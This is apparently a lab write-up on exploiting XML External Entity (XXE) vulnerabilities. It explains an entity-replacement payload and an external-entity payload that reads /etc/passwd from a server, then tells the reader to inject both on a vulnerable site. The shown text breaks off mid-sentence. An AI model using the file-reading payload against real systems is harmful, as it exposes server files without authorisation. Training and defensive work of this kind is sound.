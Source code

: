 






# Task 16: XML External Entity - Exploiting
Introduction to Exploiting XXE Vulnerabilities
In this task, we explore how to exploit XXE vulnerabilities using practical examples and payloads. This involves understanding how ENTITY references can be manipulated to read files or perform other malicious activities.

Example XXE Payloads
Simple ENTITY Replacement:
This payload demonstrates how to define an ENTITY and use it within the XML document to replace a value.

xml
Copy code
<!DOCTYPE replace [
    <!ENTITY name "feast">
]>
<userInfo>
    <firstName>falcon</firstName>
    <lastName>&name;</lastName>
</userInfo>
Explanation:
!DOCTYPE replace: Declares a document type definition.
<!ENTITY name "feast">: Defines an entity named name with the value "feast".
<lastName>&name;</lastName>: Uses the name entity in the XML data, which gets replaced by "feast".
Reading Local Files:
This payload shows how to use the SYSTEM keyword to read a file from the server.

xml
Copy code
<?xml version="1.0"?>
<!DOCTYPE root [
    <!ENTITY read SYSTEM 'file:///etc/passwd'>
]>
<root>&read;</root>
Explanation:
!DOCTYPE root: Declares a document type definition for the root element.
<!ENTITY read SYSTEM 'file:///etc/passwd'>: Defines an entity named read with a SYSTEM identifier that points to the /etc/passwd file.
<root>&read;</root>: Uses the read entity to include the contents of the /etc/passwd file within the XML document.
If the application is vulnerable to XXE, it would process the XML and display the contents of /etc/passwd.

Hands-On Example
Try the payloads on a vulnerable website:

Simple ENTITY Replacement:
Inject the simple payload to see if the ENTITY replacement works correctly.
Reading Local Files:
Inject the file reading payload to check if the application reveals the contents of the specified file.
Note: If the application does not display the file contents, it might be due to:
